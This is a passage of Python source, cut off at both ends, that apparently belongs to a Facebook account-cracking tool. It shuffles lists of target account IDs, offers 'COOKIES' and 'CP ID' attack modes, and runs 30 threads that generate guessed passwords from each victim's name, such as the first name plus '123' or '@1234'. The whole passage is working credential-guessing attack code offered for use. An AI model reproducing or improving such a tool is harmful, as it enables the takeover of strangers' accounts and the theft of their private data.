             bcmi -=1
    elif hu in ['3','03']:
        for bacot in id:
            xx = random.randint(0,len(id2))
            id2.insert(xx,bacot)
    else:
        for bacot in id:
            xx = random.randint(0,len(id2))
            id2.insert(xx,bacot)
    print(f'\033[38;5;196m┏━───────────────────\033[1;37m')
    print("\x1b[38;5;50m┣━\033[1;91m[\033[1;92m1\033[1;91m]\033[1;92m \x1b[38;5;50m COOKIES  [\x1b[1;95mBEST\x1b[38;5;50m]")
    print("\x1b[38;5;50m┣━\033[1;91m[\033[1;92m2\033[1;91m]\033[1;92m \x1b[38;5;50m CP ID [\x1b[38;5;50mBEST\x1b[38;5;50m]")
    print(f'\033[38;5;196m┗━───────────────\033[1;37m')
    hc = input('\033[1;91m[\033[1;92m+\033[1;91m] \033[1;96mCHOOSE: ')
    #os.system("xdg-open https://www.facebom/ASHIK.King.Ok.Bro")
    if hc in ['1','01']:
        method.append('mobile')
    elif hc in ['2','02']:
        method.append('free')
    else:
        method.append('mobile')
    passwrd()
    exit() 
 
#-------------------[ BAGIAN-WORDLIST ]------------#
 
def passwrd():
    os.system('clear')
    print(logo)
    print(f'\x1b[38;5;50m┏━──────────────────────────────────────────────────\033[1;37m')
    print(f"\x1b[38;5;50m┣━\033[1;91m[\033[1;92m+\033[1;91m] \033[92;1\x1b[1;97m𝚈𝙾𝚄𝚁 𝚃𝙾𝙾𝙻𝚂 𝙰𝙲𝚃𝙸𝚅𝙴 \x1b[38;5;50m[𝙿𝚁𝙴𝙼𝙸𝚄𝙼] ") 
    print(f"\x1b[38;5;50m┣━\033[1;91m[\033[1;92m+\033[1;91m] \033[92;1\x1b[1;97m𝚄𝚂𝙴𝚁 𝙽𝙰𝙼𝙴\033[1;91m :\033[1;96m "+𝚞𝚗𝚊𝚖𝚎)
    print('\x1b[38;5;50m┣━\033[1;91m[\033[1;92m+\033[1;91m] \033[41m\x1b[1;97m𝚈𝙾𝚄𝚁 𝚃𝙾𝚃𝙰𝙻 𝙸𝙳𝚣 \033[0;97m:\x1b[38;5;50m ',str(len(id)))
   # print("\033[1;91m[\033[1;92m+\033[1;91m] \033[41m\x1b[1;97m𝚂𝚃𝙰𝚁𝚃𝙴𝙳 𝚈𝙾𝚄𝚁 𝙲𝙻𝙾𝙽𝙸𝙽𝙶 𝚃𝙸𝙼𝙴\033[0;97m :> \x1b[38;5;50m"+time.strftime("%H:%M")+" "+ tag)
    print(f'\x1b[38;5;50m┣━\033[1;91m[\033[1;92m+\033[1;91m] \x1b[38;5;46m\033[1;97m𝙵𝙰𝚂𝚃 \033[1;34m[\033[1;32m𝙽𝙾\033[1;97m/\033[38;5;196m𝙾𝙵𝙵\033[1;34m] \033[1;97m𝙰𝙸𝚁𝙿𝙻𝙰𝙽𝙴 𝙼𝙾𝙳𝙴] [💙] ')
    print(f'\x1b[38;5;50m┗━──────────────────────────────────────────────────\033[1;37m')
    with tred(max_workers=30) as pool:
        for yuzong in id2:
            idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
            frs = nmf.split(' ')[0]
            pwv = []
            if len(nmf)<6:
                if len(frs)<3:
                    pass
                else:
                    pwv.append(frs+'12')
                    pwv.append(frs+'22')
                    pwv.append(frs+'@12')                                        
                    pwv.append(frs+'123')
                    pwv.append(frs+'1234')
                    pwv.append(frs+'@1234')                   
                    pwv.append(nmf)
                    pwv.append('57273200')
                    pwv.append(frs+'@123')
                    pwv.append(frs+'@')